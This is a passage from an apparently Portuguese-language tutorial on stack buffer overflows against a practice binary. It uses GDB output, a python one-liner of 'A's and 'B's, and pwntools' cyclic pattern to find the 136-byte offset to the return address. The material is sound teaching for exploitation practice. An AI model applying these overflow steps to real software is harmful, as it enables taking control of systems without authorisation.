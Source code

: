 ```
(gdb) x/gx $rsp
0x7fffffff4a18: 0x4141414141414141
(gdb) p/d 0x7fffffff4a18 - 0x7fffffff4990
$1 = 136
```

Por essa conta o valor do *offset* é 136. Vamos confirmar isso!

Gere uma *string* com 136 `A`s e depois 8 `B`s e use essa nova *string* para
enviar ao programa no GDB. Assim, se no momento de executar
a instrução `ret` no topo da stack tiver os `B`s, saberemos que estamos certos.

```
python3 -c 'print("A"*136 + "B"*8)'
```

```
(gdb) r
Starting program: /root/binexp_bof_01 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[*] buffer is on: 0x7fffffff4990
[*] Now send data to buffer: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb) x/gx $rsp
0x7fffffff4a18: 0x4242424242424242
(gdb) x/s $rsp
0x7fffffff4a18: "BBBBBBBB"
```

Olha só, funcionou legal, estamos certo nessa, eim?! :)

#### Descobrir offset: string cíclica

Uma outra forma bem interessante de conseguir calcular o valor do **offset**
consiste em empresar o [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
para criar uma *string* cíclica que uma determinada *substring* vai ser única na
sequência gerada. Vamos ver como podemos utilizar isso a nosso favor.

O `pwntools` também já implementa esse tipo de técnica, podendo ser usado
chamando o comando `cyclic` e informando o tamanho da *string* que quer gerar.
Vamos gerar uma *string* com os 180 bytes que queremos:

```
pwn cyclic 180
```

Agora vamos repetir os passos anteriores, utilizando o GDB, para ver qual valor
ficaria no `RIP`:

```
[*] buffer is on: 0x7fffffff4990
[*] Now send data to buffer: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaab

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401273 in main ()
=> 0x0000000000401273 <main+104>:       c3                      ret
(gdb) 
(gdb) x/gx $rsp
0x7fffffff4a18: 0x6261616b6261616a
```
